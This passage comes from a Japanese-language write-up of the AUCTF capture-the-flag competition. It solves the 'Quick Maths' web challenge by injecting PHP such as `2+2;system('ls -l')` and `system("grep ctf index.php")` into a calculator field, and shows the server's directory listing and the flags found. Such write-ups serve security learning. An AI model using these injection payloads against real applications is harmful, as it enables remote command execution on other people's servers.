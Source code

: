 <br />
Flag: `auctf{f3ar_z_olD3_8l0oD}`



<br /><br />
<br /><br />

## [Web]: Quick Maths
- - -
### Challenge
> http://challenges.auctf.com:30021
<br /><br />
two plus two is four minus three that's one quick maths


<br />
### Solution

Webにアクセスすると、テキストボックスがあって、そこで計算をしてくれるようです。

`2+2;phpinfo()` を試したところ、phpinfoが取れました。

そこで、`2+2;system('ls -l')` を試したところ、以下が取れました。

<pre>
4total 264
-rwxr-xr-x 1 www-data www-data 130736 Apr 4 09:09 date
-rwxr-xr-x 1 root root 560 Mar 31 19:34 index.php
-rwxr-xr-x 1 www-data www-data 130736 Apr 4 09:09 ls
-rw-r--r-- 1 www-data www-data 6 Apr 4 09:02 test.txt
</pre>

<br />
どうやら、date, lsはELFファイルで、おそらく他の人のテストによって生成されちゃったファイル。

test.txtも関係ないファイルでした。

index.phpの中にフラグがあると予想して、`2+2;system("grep ctf index.php")` でフラグを取りました。

<br />
Flag: `auctf{p6p_1nj3c7i0n_iz_k3wl}`


<br /><br />
<br /><br />

## [Web]: gg no re
- - -
### Challenge
> http://challenges.auctf.com:30022
<br /><br />
A junior dev built this site but we want you to test it before we send it to production.

